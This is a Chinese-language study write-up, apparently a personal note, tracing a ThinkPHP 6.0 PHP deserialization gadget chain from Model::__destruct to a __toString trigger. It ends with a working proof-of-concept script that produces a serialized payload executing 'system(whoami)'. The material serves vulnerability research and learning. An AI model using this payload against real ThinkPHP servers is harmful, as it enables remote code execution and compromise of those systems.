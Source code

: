 # ThinkPHP 6.0反序列化利用链学习
---

## 安装环境
直接按照github上[ThinkPHP官方](https://github.com/top-think/think/tree/6.0)提供的方式安装
mac下：
```bash
$ curl -sS https://getcomposer.org/installer | php
$ php composer.phar create-project topthink/think tp
```
我还是直接在sublime中运行think文件进行调试
注意这里在think中`unserialize(urldecode("xxx"));`的代码位置
如果放在`(new App())->console->run();`后运行会有点问题：因为`run()`中有`exit()`
(这里不可注释，因为需要`(new App())->initialize();`来初始化，否则`Model.php`的`db()`中的`self::$db`一直为NULL）
以下提供3种解决办法：
- 这里可以在`/public/index.php`中调试
- 把`think`中`(new App())->console->run();`改为`(new App())->console;`或`(new App())->initialize();`
- 在`think`的`(new App())->console->run();`之前加入反序列化的触发点
![](./pics6.0/7.png)

## 利用链
6.0和之前的区别在于6.0.x版本取消了`Windows`类，也就是删除了最开始的`__destruct()`
不过`__toString()`之后的链(动态调用的链，包含*route.php也已失效)仍然存在
所以要找到一个新起始触发点，来触发`__toString()`

”通常最好的反序列化起始点为`__destruct()`、`__wakeup()`,因为这两个函数的调用在反序列化过程中都会自动调用，所以我们先来找此类函数。这里我找了`vendor/topthink/think-orm/src/Model.php`的`__destruct()`函数。“
随着大佬的脚步，到`vendor/topthink/think-orm/src/Model.php`瞅一瞅
![](./pics6.0/1.png)
`$this->lazySave`可控，跟到`save()`
![](./pics6.0/2.png)
这里要保证`$this->trigger('BeforeWrite')`和`$this->isEmpty()`不为`false`，默认前者为`true`
后面这个是判断了`$this->data`有无值，可控
接着看到函数`updateData()`
![](./pics6.0/3.png)
出发点在这个截图的最下方也就是`$allowFields = $this->checkAllowFields();`
不过要保证执行到这一步，需要构造前面不`return`,要保证`$data`不能为空
`checkData()`函数啥都没干，`$this->getChangedData()`为
![](./pics6.0/4.png)
可构造`$this->force`，即可进入`checkAllowFields()`
![](./pics6.0/5.png)
跟到`$this->db()`
![](./pics6.0/6.png)
发现有字符串拼接且参数可控,可以触发`__toString()`了(注意还要满足`$this->connection`为`mysql`)




## POC
```php
<?php
namespace think\model\concern{
    trait Conversion{
    }
    trait Attribute{
    }
}

namespace think{
    class Model{
        use model\concern\Conversion;
        use model\concern\Attribute;
        private $data = ['test' => "whoami"];    //此处2个键名要相同，值为$value
        private $withAttr = ['test' => "system"];    //此处2个键名要相同，值为$closure
        private $lazySave = true;
        private $exists = true;
        protected $connection = "mysql";
        protected $name;
        function __construct(){
                $this->name = $this;
        }
    }
}

namespace think\model {
    use think\Model;
    class Pivot extends Model{
    }
}


namespace{
    $payload = new think\model\Pivot();
    echo urlencode(serialize($payload));
}
```

## 参考链接
1.[thinkphp v6.0.x 反序列化利用链挖掘](https://www.anquanke.com/post/id/187393)